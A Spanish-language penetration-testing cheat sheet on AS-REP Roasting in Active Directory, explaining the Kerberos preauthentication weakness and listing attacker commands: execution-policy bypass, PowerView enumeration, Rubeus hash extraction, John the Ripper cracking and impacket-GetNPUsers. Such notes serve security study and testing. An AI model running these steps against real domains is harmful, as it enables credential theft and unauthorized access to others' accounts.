# AS-REP Roasting 

Tags: #AD #Windows #AS-REP #Powershell #Impacket 

Es una técnica usada para explotar una debilidad en el protocolo de autentificacion de Kerberos. Kerberos es comúnmente usado en los entornos de AD para propósitos de autenticacion. AS-REP específicamente abusa de la vulnerabilidad en la manera en que Kerberos solicita la autenticacion. En el protocolo de Kerberos cuando un usuario quiere autenticarse al servicio, envían un 'Authentication Service Request' (AS-REQ) para la 'Key Distribution Center' (KDC). La KDC después responde  con un 'Authentication Service Reply' (AS-REP), el cual incluye a 'Ticket-Granting-Ticket' (TGT). El TGT es encriptado usando el hash de la password del usuario. 

AS-REP toma ventaja de la manera que algunas cuentas de usuarios en AD puede tener la opción activada 'Do not Require Kerberos preauthentication'. Esta opción permite a el AS-REP ser solicitado sin necesidad de una password de usuario. Un atacante puede identificar esas cuentas vulnerables para solicitar en AD ese tipo de cuentas sin esa opción activada. 

## Sincronizar el reloj 

```bash 
Nota: Antes de iniciar al ataque debemos de sincronizar el reloj de la maquina de atacante con el AD

❯ ntpdate IP     # Sincronizar el reloj 

	# IP = Dirección IP del DC

❯ date -s "2025-01-04 15:30:00"   # Restablecer la fecha y hora
```

## PowerView y Rubeus

```bash 
# Descargar la utilidad en la maquina de atacante y pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ git clone https://github.com/szalek/Ghostpack-CompiledBinaries.git /opt/windows/GhostpackBinaries
❯ mkdir -p /home/kali/workspace/www && cd /home/kali/workspace/www
❯ cp /opt/windows/GhostpackBinaries/Rubeus.exe .
```

```bash 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*"} # Identificar cuentas de usuarios que tienen 'Do not Require Kerberos preauthentication'

❯ .\Rubeus.exe asreproast /usr:<user> /outfile:userhash.txt   # Hacer el AS-REP 'Roasting' para obtener el hash del usuario el cual se almacenara en el archivo llamada 'userhash.txt'
```

```bash 
# El hash lo podemos crackear en Kali 
❯ john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt userhash.txt    # Crackear un hash con un formato especifico
	# krb5asrep = Kerberos AS-REP
```

## Impacket-GetNPUsers 

```bash 
❯ impacket-GetNPUsers domain1.corp/ -no-pass -usersfile users.txt    # Solicitar un TGT
```